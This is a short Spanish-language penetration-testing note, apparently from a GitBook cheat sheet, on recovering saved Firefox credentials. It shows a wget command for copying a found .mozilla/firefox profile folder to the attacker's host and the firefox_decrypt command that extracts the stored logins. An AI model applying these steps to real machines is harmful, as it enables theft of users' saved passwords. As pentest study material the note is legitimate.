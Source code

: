```yaml
---
icon: firefox
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Decrypt Firefox

Si en alguna vez se encuentra una carpeta en una maquina llamado algo como `.mozilla/firefox` y dentro de esas ruta puede haber una via potencial para desencriptar `coockies` de inicios de sesion...

URL = [Script Firefox\_decrypt](https://github.com/unode/firefox_decrypt)

Si nos encontramos una carpeta que contiene cosas de `firefox` nos las podemos pasar a neustro `host` utilizando el siguiente comando...

```shell
wget -r <IP>:<PORT>
```

Para descargarte todo el contenido de esa `IP` y de ese puerto...

Y para utilizar la herramienta anterior una vez que tengamos nuestra carpeta entera de `.mozilla/firefox/` haremos lo siguiente con la herramienta...

```shell
python3 firefox_decrypt.py ../firefox/
```

Esto te pedira una contraseña si estuviera protegida la informacion, pero si no te daria las credenciales directamente encontradas...
